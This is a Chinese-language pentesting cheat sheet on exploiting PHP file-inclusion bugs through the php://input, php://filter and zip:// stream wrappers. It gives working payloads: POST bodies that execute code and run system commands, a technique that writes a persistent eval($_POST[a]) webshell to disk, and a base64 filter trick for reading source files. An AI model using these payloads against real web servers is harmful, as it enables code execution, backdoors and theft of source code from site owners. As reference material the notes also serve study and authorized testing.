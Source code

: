 ### php://input
php://input可以获取POST的数据流。当它与包含函数结合时，php://input流会被当作`php`文件执行。从而导致`任意代码执行`。

**php.ini要求：**
 - `allow_url_fopen=Off/On`
 - `allow_url_include=On`

**实例**
```
?file=php://input
[POST DATA] <?php phpinfo(); ?>

页面中会显示phpinfo信息
```
**利用实例**

|     简介     |                           POST DATA                           |
|:------------ |:------------------------------------------------------------- |
| 增加一句话   | `<?php fputs(fopen("shell.php","a"),"<?php phpinfo();?>") ?>` |
| 增加文件     | `<?php fputs(fopen("shell.php","w"),"<?php phpinfo();?>") ?>` |
| 执行系统命令 | `<?php system('ipconfig') ?>`                                 |

**注意**
在尝试的时候发现了一个问题，当写入`<?php fputs(fopen("shells.php","w"),"<?php eval($_GET[a]) ?>")  ?>`时，`$_GET[a]`会被执行(其他一样)，如果在url中没有a参数，则写入的内容会是`<?php eval() ?>`，后来想到一种方式，既然`$_GET[a]`会被执行，那么我就在构造一个a参数，如下
```
http://localhost:8088/shell.php?file=php://input&a=$_POST[a]
[POST DATA]
<?php fputs(fopen("shells.php","w"),"<?php eval($_GET[a]) ?>")  ?>

最终写入的结果会是 <?php eval($_POST[a]) ?>
```


<br>

### php://filter
php://filter可以获取指定文件源码。当它与包含函数结合时，php://filter流会被当作`php`文件执行。所以我们一般对其进行编码，让其不执行。从而导致 `任意文件读取`。

**php.ini要求：**
 - `allow_url_fopen=Off/On`
 - `allow_url_include=Off/On`

**实例**
```
?file=php://filter/read=convert.base64-encode/resource=phpinfo.php

页面中会显示经过 BASE64 编码的字符串，解码后可以得到 phpinfo.php 的源码
```

<br>

### zip://
zip://可以访问压缩包里面的文件。当它与包含函数结合时，zip://流会被当作`php`文件执行。从而实现`任意代码执行`。
